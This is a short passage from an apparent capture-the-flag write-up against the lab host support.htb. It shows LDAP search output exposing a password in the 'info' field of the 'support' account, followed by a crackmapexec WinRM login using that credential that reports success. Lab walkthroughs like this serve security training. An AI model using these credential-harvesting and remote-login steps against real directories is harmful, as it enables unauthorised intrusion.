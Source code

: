Find another credential: `support:Ironside47pleasure40Watchful`

```console
└─╼$ cat ldapsearch.out | grep "# support, Users, support.htb" -A50
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

```console
└─╼$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         support.htb     5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        support.htb     5985   DC               [*] http://support.htb:5985/wsman
WINRM       support.htb     5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```
